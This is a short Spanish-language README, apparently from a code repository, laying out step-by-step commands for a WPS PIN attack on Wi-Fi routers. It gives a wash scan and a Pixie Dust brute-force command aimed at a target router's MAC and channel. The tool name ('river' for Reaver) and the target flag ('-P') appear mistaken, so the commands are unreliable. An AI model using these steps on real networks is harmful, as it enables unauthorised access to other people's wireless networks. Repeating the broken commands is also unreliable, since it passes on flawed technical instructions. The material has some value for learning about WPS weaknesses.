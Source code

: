 # Ataque WPS

WPS (Wi-Fi Protected Setup) es un estándar de seguridad diseñado para simplificar el proceso de conexión de dispositivos a una red inalámbrica de manera más fácil y segura. Fue desarrollado para permitir que los usuarios conecten sus dispositivos a una red Wi-Fi sin necesidad de introducir manualmente una contraseña larga.

Los atacantes pueden intentar adivinar este PIN, que es fácil de descifrar debido a su corto tamaño (8 dígitos). Cuando el atacante encuentra el PIN correcto, puede obtener la contraseña del router si el **WPS está habilitado**.

Muchos router tienen medidas de seguridad,como bloquear después de muchos intentos o tiene el wps apagado.

## Pasos de ataque:

1.  **Comando Wash** para escanear redes Wi-Fi con WPS habilitado:

    ```bash
    wash -i <nombre_de_tu_interfaz> -C
    ```

    * `-i <nombre_de_tu_interfaz`
    * `-C`: Ignora ciertos errores de tramas.
2.  **Comando River** para intentar un ataque WPS a una red seleccionada:

    ```bash
    river -i <nombre_de_tu_interfaz> -P <MAC_del_router_objetivo> -c <canal_de_red> -v -K
    ```

    * `-i <nombre_de_tu_interfaz>`
    * `-P <MAC_del_router_objetivo>`
    * `-c <canal_de_red>`
    * `-K`: Usa la herramienta Pixie para realizar el ataque WPS.

**Mas informacion:**

[https://www.thehacker.recipes/radio/wi-fi/wps/](https://www.thehacker.recipes/radio/wi-fi/wps/)
